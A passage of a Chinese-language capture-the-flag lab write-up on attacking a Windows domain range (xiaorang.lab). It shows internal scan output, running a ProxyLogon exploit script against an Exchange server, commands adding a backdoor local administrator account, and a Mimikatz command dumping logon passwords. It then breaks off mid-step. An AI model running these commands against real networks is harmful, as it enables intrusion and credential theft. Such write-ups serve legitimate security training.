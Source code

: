 ```
   [->]172.22.3.9
[*] 172.22.3.2  (Windows Server 2016 Datacenter 14393)
[*] NetBios: 172.22.3.2      [+]DC XIAORANG-WIN16.xiaorang.lab      Windows Server 2016 Datacenter 14393 
[*] NetBios: 172.22.3.9      XIAORANG-EXC01.xiaorang.lab         Windows Server 2016 Datacenter 14393 
[*] WebTitle: http://172.22.3.12        code:200 len:19813  title:lumia
[*] WebTitle: http://172.22.3.12:8000   code:302 len:0      title:None 跳转url: http://172.22.3.12:8000/login.html
[*] WebTitle: http://172.22.3.12:8000/login.html code:200 len:5662   title:Lumia ERP
[*] WebTitle: http://172.22.3.9:81      code:403 len:1157   title:403 - 禁止访问: 访问被拒绝。
[*] WebTitle: https://172.22.3.9:8172   code:404 len:0      title:None
[*] WebTitle: http://172.22.3.9         code:403 len:0      title:None
[*] WebTitle: https://172.22.3.9        code:302 len:0      title:None 跳转url: https://172.22.3.9/owa/
[*] WebTitle: https://172.22.3.9/owa/auth/logon.aspx?url=https%3a%2f%2f172.22.3.9%2fowa%2f&reason=0 code:200 len:28237  title:Outlook
```

172.22.3.9为exchange服务，用proxylogon来打

```bash
proxychains4 python2 proxylogon.py 172.22.3.9 administrator@xiaorang.lab
```

然后添加用户进行rdp

```
net user Ki1ro @Abc807723 /add
net localgroup administrators Ki1ro /add
```

成功远程桌面连接

![image-20231013173430642](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231013173430642.png)

获取flag

![image-20231013173545249](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231013173545249.png)

因为是本地Administrator权限，可以用mimikatz抓一下域用户密码,用管理员权限打开

```bash
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" > 1.txt
```

再用

![image-20231013181359320](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231013181359320.png)